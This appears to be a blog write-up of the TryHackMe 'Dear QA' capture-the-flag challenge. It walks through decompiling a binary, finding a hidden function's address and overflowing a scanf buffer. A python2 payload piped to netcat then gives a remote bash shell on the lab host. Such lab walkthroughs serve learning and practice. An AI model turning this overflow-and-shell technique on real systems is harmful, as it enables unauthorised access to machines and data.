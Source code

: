 ```yaml
---
layout: post
title:  "THM: Dear QA"
date:   2022-02-05 16:00:00 +1100
category: hacking
---
```


This was [Dear QA](https://tryhackme.com/room/dearqa) from THM, an Easy rated "reverse engineering and exploit development" challenge. I'm not very good at these so I struggled a bit but got it done. 

## Binary
We were given a binary to inspect: **DearQA.DearQA**

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dearqa]
└─# file DearQA.DearQA                                                                                                                                
DearQA.DearQA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8dae71dcf7b3fe612fe9f7a4d0fa068ff3fc93bd, not stripped
{% endhighlight %}

I disassembled the file in Ghidra and we have two notable functions, *main* and *vuln*. 

Main (as per Ghidra):

{% highlight c %}
undefined8 main(void)

{
  char local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
{% endhighlight %}

and Vuln:

{% highlight c %}
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
{% endhighlight %}

Note that **vuln** is never called during the execution of **main** and hence the challenge is to gain execution of vuln, which we do by overflowing the buffer in *scanf*, here referred to as **__isoc99_scanf** which I gather is a compiler specific implementation of scanf. 

The same type of thing is described [here](https://d0nut.medium.com/week-13-introduction-to-buffer-overflows-5f15c0d5b5c1) and [here](http://www.cpp.re/forum/unices/256152/); note that the first example is for a 32-bit binary which is *not* the case for us. 

We need the entry point for the **vuln** function which we can get from Ghidra:

{% highlight asm %}
00400686 55              PUSH       RBP
{% endhighlight %}

Or GDB:

{% highlight shell %}
└─# gdb DearQA.DearQA                                                                                                                                                           16 ⨯
GNU gdb (Debian 10.1-2) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.                                                                                                                                    
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from DearQA.DearQA...
(No debugging symbols found in DearQA.DearQA)
(gdb) break vuln
Breakpoint 1 at 0x40068a
(gdb) disass vuln
Dump of assembler code for function vuln:
   0x0000000000400686 <+0>:     push   %rbp
{% endhighlight %}

Or [Binary Ninja](https://binary.ninja/), which I downloaded a trial version of. 

Our address is **0x400686**, or in Little Endian **\x86\x06\x40** and we need to pad this to the right size: **\x86\x06\x40\x00\x00\x00\x00\x00**.

Next, we need to figure out how many dummy chars to insert before our address. I tried to figure this out for myself but I didn't seem to be able to get it right, so in the end I let bash do it for me. We did know that it was at least 32 though, since that was the buffer size per Ghidra.

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dearqa]
└─#for i in {32..40}; do echo "i is $i" && python2 -c "print $i * 'A' + '\x86\x06\x40\x00\x00\x00\x00\x00'" | ./DearQA.DearQA; done
i is 32
Welcome dearQA
I am sysadmin, i am new in developing
Whats your name: Hello: AAAAAAAAAA�@
# etc
i is 40
Welcome dearQA
I am sysadmin, i am new in developing
Whats your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
Congratulations!
You have entered in the secret function!
{% endhighlight %}

Now we send our 'exploit' to the same binary running on a remote server and gain a shell. Piping the command to netcat results in a session that immediately dies so we need some fancy [syntax](https://itectec.com/superuser/how-to-pipe-commands-to-a-netcat-that-will-stay-alive/) like so:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/dearqa]
└─# cat <(python2 -c "print 40 * 'A' + '\x86\x06\x40\x00\x00\x00\x00\x00'") - | nc 10.10.90.142 5700                                                                             1 ⨯
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�^F@^@^@^@^@^@
Welcome dearQA
I am sysadmin, i am new in developing
Whats your name: Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
Congratulations!
You have entered in the secret function!
bash: cannot set terminal process group (445): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ id
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
ctf@dearqa:/home/ctf$ ls -lash
ls -lash
total 40K
4.0K drwxr-xr-x 2 ctf  ctf  4.0K Jul 24  2021 .
4.0K drwxr-xr-x 3 root root 4.0K Jul 24  2021 ..
4.0K -rw------- 1 ctf  ctf   619 Jul 24  2021 .bash_history
4.0K -rw-r--r-- 1 ctf  ctf   220 Jul 24  2021 .bash_logout
4.0K -rw-r--r-- 1 ctf  ctf  3.5K Jul 24  2021 .bashrc
4.0K -rw-r--r-- 1 ctf  ctf   675 Jul 24  2021 .profile
8.0K -r-xr-xr-x 1 ctf  ctf  7.6K Jul 24  2021 DearQA
4.0K -rwx------ 1 root root  413 Jul 24  2021 dearqa.c
4.0K -r--r--r-- 1 ctf  ctf    22 Jul 24  2021 flag.txt
ctf@dearqa:/home/ctf$ cat flag.txt
# do it yourself
{% endhighlight %}

